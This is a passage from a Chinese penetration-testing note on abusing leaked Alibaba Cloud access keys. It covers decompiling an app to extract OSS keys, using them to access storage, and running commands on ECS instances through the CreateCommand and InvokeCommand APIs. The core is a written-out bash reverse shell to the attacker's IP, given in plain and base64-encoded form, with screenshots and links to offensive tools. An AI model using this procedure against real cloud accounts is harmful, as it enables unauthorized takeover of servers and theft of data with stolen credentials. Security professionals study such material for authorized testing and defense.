 	反编译app文件，查找可能会包含oss key的文件，如JS。
	OSSAccessKey、AccessKeySecret使用OSS浏览器访问。
	第三方行云管家可修改系统密码。
	反弹shell
	From: https://xz.aliyun.com/t/8310
	https://api.aliyun.com/#/?product=Ecs
	搜索框搜索选择CreateCommand来创建一个命令
	CommandContent填命令的base64，Type填RunShellScript
	命令echo "bash -i >& /dev/tcp/你的IP/端口 0>&1"| base64
	bash -i >& /dev/tcp/你的IP/端口 0>&1
	YmFzaCAtaSAmZ3Q7JiAvZGV2L3RjcC8xLjEuMS4xLzQ0NDQgMCZndDsmMQ==
	填好以后点调试SDK
	会直接给你起一个Cloud shell
![image](/assets/Pentest_Note/master/img/842.png)

	并创建一个CreateCommand.py文件，使用vi编辑
![image](/assets/Pentest_Note/master/img/843.png)

	填accessKeyId,accessSecret保存执行，并记录Commandid
![image](/assets/Pentest_Note/master/img/844.png)

	再次在搜索框搜索InvokeCommand
![image](/assets/Pentest_Note/master/img/845.png)

	Commandid填上面请求的返回值，InstanceId填行云管家显示的实例ID
![image](/assets/Pentest_Note/master/img/846.png)

	填好了点调试sdk然后编辑文件把accessKeyId accessSecret填一下，执行
![image](/assets/Pentest_Note/master/img/847.png)

	然后看监听的服务器shell已经反弹成功
![image](/assets/Pentest_Note/master/img/848.png)

####工具
	https://github.com/iiiusky/alicloud-tools
	https://github.com/mrknow001/aliyun-accesskey-Tools